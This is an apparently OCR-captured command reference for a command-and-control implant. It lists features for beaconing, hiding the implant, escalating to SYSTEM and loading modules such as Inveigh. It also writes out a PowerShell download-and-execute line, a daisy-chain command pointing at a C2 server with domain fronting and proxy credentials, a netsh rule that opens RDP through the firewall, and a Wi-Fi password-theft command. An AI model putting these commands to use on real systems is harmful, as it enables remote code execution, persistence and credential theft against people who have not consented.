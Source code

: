 # Implant Features:

Beacon 60s / Beacon 10m / Beacon 2h

Turtle 60s / Turtle 30m / Turtle 8h

Kill-Implant

Hide-Implant

Unhide-Implant

Invoke-Enum

Get-Proxy

Get-ComputerInfo

Unzip <source file> <destination folder>

Get-System

Get-System-WithProxy

Get-System-WithDaisy

Get-ImplantWorkingDirectory

Get-Pid

Get-Webpage http://intranet

ListModules

ModulesLoaded

LoadModule <modulename>

LoadModule Inveigh.ps1

Invoke-Expression (Get-Webclient).DownloadString("https://module.ps1")

StartAnotherImplant or SAI

Invoke-DaisyChain -name dc1daisy -daisyserver http://192.168.1.1 -port 80 -c2port 80 -c2server http://c2.goog.com -domfront aaa.clou.com -proxyurl http://10.0.0.1:8080 -proxyuser dom\test -proxypassword pass

CreateProxyPayload -user <dom\user> -pass <pass> -proxyurl <http://10.0.0.1:8080>

Get-MSHotfixes

Get-FireWallRulesAll | Out-String -Width 200

EnableRDP

DisableRDP

Netsh.exe advfirewall firewall add rule name="EnableRDP" dir=in action=allow protocol=TCP localport=any enable=yes

Get-WLANPass
